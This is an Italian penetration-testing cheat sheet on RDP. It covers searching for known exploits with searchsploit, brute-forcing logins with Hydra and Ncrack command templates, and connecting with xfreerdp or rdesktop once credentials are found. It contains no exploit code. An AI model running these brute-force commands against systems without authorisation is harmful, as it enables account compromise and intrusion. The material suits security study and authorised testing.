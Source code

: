 ## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <rdp-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---

## Bruteforce 
⚠️ Attenzione: il brute-force su RDP può attivare sistemi di difesa (lockout, log, allarmi).

### Hydra
```bash
hydra -t 4 -V -f -L <userList> -P <passwordList> rdp://<IP> -s <PORT>
```
- `-L` → file con la lista utenti  
- `-P` → file con la lista password  
- `-s` → porta RDP (se diversa da 3389)  
- `-t` → numero massimo di thread (es. `-t 4` per rallentare l'attacco)

### Ncrack
```bash
ncrack -p 3389 -u <user> -P <wordlist> <IP>
```
Una volta ottenute credenziali valide possiamo usare un client open source per il protocollo RDP per connetterci alla GUI usando le credenziali. 
xfreerdp:
```bash
xfreerdp /u:<username> /p:<password> /v:<IP>:<PORT>
```
> Durante la connessione potrebbe comparire un avviso sul certificato non verificato: accettare con `YES`.

rdesktop:
```bash
rdesktop -u <username> -p <password> <IP>
```

---

